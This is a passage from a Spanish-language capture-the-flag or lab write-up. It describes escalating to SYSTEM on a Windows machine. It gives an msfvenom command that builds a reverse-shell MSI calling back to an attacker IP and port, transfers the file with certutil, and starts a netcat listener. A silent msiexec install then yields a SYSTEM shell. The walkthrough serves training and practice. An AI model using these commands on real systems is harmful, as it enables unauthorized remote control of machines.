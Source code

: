```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.1 LPORT=9999 -f msi > 1.msi
```

<img src="https://i.imgur.com/9TDN2Vn.png" width=700>

Una vez tenemos el archivo .msi, lo transferiremos a la máquina víctima con **certutil.exe**:

<img src="https://i.imgur.com/8TTtmQK.png" width=600>

Procederemos a ponernos en escucha con [Netcat](http://netcat.sourceforge.net/) por el puerto 9999, para ello:

```bash
nc -nlvp 9999
```

Con el archivo msi en la máquina víctima procederemos a instalarlo y ejecutarlo con el comando:

```powershell
msiexec /quiet /qn /i 1.msi
```

Una vez ejecutado recibiremos una TCP reverse shell como el usuario **nt authority/system**:

<img src="https://i.imgur.com/VgWzNPM.png" width=700>

Visualizaremos la flag **root.txt** en el directorio **C:\Users\Administrator\Desktop**.
